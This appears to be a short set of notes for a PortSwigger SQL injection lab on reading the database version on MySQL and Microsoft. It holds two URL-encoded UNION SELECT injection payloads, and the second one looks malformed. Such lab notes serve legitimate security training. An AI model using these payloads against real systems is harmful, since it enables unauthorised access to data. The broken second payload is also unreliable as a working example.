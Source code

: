 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft

```sql
'+UNION+SELECT+'ABC',@@version+from+information_schema.schemata#
```

```sql
'+UNION+SELECT+'ABC',banner+from+@@version#
```